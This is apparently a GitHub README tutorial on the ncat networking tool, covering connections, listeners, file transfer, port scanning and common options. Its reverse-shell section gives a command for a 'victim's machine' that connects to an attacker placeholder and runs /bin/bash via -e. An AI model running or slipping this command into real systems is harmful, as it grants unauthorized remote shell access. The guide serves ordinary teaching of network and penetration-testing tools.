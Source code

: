 # ncat
is a tool which reads and writes data across network connections, using TCP or UDP protocol.  
it is designed to be a reliable back-end tool for **sending, receiving, ** and **redirecting **data across networks. It supports both TCP and UDP protocols, SSL encryption, and IPv6.

- can be used in wide range of functions such as

> transfer files  
> port scanning  
> creating reverse shells  
> setting up proxies - intermediary servers used to route network traffic, enhancing anonymity and potentially bypassing restrictions  
> debugging network services

### syntax
- ncat -option- -ip- -port-

## 1.connecting to remort server

        ncat 192.168.56.102 9999
trying to connect to machine (192.168.56.102) on port 9999

### 2. Listen for Incoming Connections
To set up Ncat as a listener on a specific port:

    ncat -l 1234
This will make Ncat listen on port 1234. You can connect to it from another machine using:

    ncat <listener-ip> 1234
    
### 3. Transfer Files
You can use Ncat to transfer files between two machines.

On the receiving machine

    ncat -l 1234 > received_file.txt
    
- On the sending machine:
  
      ncat <receiver-ip> 1234 < file_to_send.txt
### 4. Create a Reverse Shell
Ncat can be used to create a reverse shell, which is useful for remote administration or penetration testing.

- On the attacker's machine (listener):

      ncat -l 1234
- On the victim's machine:

      ncat <attacker-ip> 1234 -e /bin/bash
This will give the attacker a shell on the victim's machine.

### 5. Port Scanning
Ncat can also be used for basic port scanning:

    ncat -zv example.com 1-100
This will scan ports 1 to 100 on example.com and report which ones are open.

## Common Options
Here are some commonly used options with Ncat:

>-l	Listen mode (wait for incoming connections).  
>-p	Specify a port number.
>-v	Verbose output (use -vv for more verbosity).
>-e	Execute a command (e.g., /bin/bash for a shell).
>-w	Set a timeout for connections.
>-u	Use UDP instead of TCP.Option	Description
>--ssl	Use SSL encryption.
>-k	Keep listening after a client disconnects.

